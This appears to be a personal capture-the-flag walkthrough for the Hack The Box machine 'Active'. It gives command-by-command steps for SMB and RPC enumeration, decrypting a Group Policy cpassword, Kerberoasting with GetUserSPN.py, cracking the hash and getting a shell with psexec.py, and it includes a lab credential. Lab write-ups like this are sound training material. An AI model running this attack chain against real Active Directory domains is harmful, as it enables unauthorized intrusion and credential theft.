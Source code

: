 1 - Enumerate ports

2 - When seeing that the machine is using Windows as OS and that the SMB port is open (445 - Microsoft DS) you can try to enumerate the service using "crackmapexec". Usage: crackmapexec smb __{VICTIM's-IP}__         

3 - Add the domain paired with the machin ip to the hosts file in /etc/hosts

4 - Try to enumerate objects in the domain using a smb client and a null session because of the lack of credentials to enter the server. Usage: smbclient -L __{VICTIM's-IP}__-N 
- -L : Allows you to look at what services are available on the server 
- -N : Suppresses the normal password prompt from the client to the user. Used in a null session
	4.1 - Because the port 88 is open and kerberos is running you can try to enumerate all the users of the server with the usage of kerbrute. Usage: kerbrute userenum --dc __{VICTIM's-IP}__ -d __{DOMAIN ex. active.htb}__ __{WORDLIST}__
	4.2 - For kerberosting and ASREPRoast attack you've to be with the hour in the system equal to the server's one. Tool: ntpdate __{VICTIM's-IP}__

5 - After listing all the sharenames you can also list the privileges for each one of those shares. Usage: smbmap -H __{VICTIM's-IP}__
- -H : Stands for Host

6 - Right after that step, if a share is public, you can use the -r flag to extract all the information from that share. Usage: smbmap -H __{VICTIM's-IP}__ -r __{SHARE-NAME}__
- -r : List contents of a directory

7 - Because of the recognizable structure of the server we can tell this is a sysvol: 
- DfsrPrivate 
- Policies
- scripts

8 - While enumerating the service we've to look for Groups.xml because that file sometimes has the password hash to the service so that enables you to enter the system. In this machine particularly Gropus.xml is in the directory:
		Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences

9 - In order to download the file you can use smbmap like this: smbmap -H __{VICTIM's-IP}__ --download __{PATH}__/Groups.xml

10 - Once having the Groups.xml in our hands we can enter cat out the file and get the hash in the cpassword field. The hash will be like: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ. Besides that, you also have to pay attention to the userName field in order to known which user that password stands for

11 - After getting the hash you can get the password by decrypting it with gpp-decrypt. Usage: gpp-decrypt __{HASH}__

12 - Once you've get the username and the password you can verify if they're correct with the usage of crackmapexec. Command: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__

13 - Now that you have an user you can list all the server shares again to see if you've access to a new-one. Usage: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --shares

14 - Now, because we've Read access to the users share we can enumerate it with smbmap with the following command: smbmap -H __{VICTIM's-IP}__ -u SVC_TGS -p GPPstillStandingStrong2k18 -r Users 
- -u and -p : Stands for Username and Password

15 - Enumerate till you get the user flag located in the desktop of the user SVC_TGS and download it with the previously named user with the flag --download

16 - Log into the service with rpcclient. Usage: rpcclient -U "__{USER}__%__{PASSWORD}__" __{VICTIM's-IP}__
	16.1 - Sometimes you can skip all the previous steps and try to connect with rpcclient with a null session. Way to do it: rpcclient -U "" __{VICTIM's-IP}__ -N
	16.2 - If with the null session attack previously named you get a list of all the users in the server you can try to do an ASREPRoast

17 - Useful rpcclient commands: 
- _enumdomusers_ - Enumerate domain users of the domain controller
- _enumdomgropus_ - Enumerate domain groups of the domain controller
- _querygroupmem_ __{RID-OF-GROUP}__ - Enumerates the users that belong to the group with that RID
- _queryuser_ __{RID-OF-A-USER}__ - Gives you all the information on the server about a certain user
- _querydispinfo_ - Enumerates all the descriptions of the users in the domain controller

18 - After trying to do an ASREPRoast attack, as we can't seem to get any creedentials we can try using GetUserSPN.py instead of GETNpusers.py. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__
	18.1 - This attack will give us a TGS (Ticket Granting Service) of the admin through the usage of credentials previously retrieved from other attacks
	18.2 - After seeing that the tools gives us a response with a TGS of the admin we can add the flag -request to get the credentials for the admin account. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__ -request

19 - When you finally have the hash of the admin's password you can dump it into a file called hash and try to crack it. Way: john -w:{Wordlist} {Hash} 

20 - Download the root flag with the usage of smbmap and the parameter --download. Way: smbmap -H __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --download Users/Administrator/Desktop/root.txt
	20.1 - Another way to get the flag could be gain system access with the use of psexec.py. Usage: psexec.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASS}__@__{VICTIM's-IP}__ cmd.exe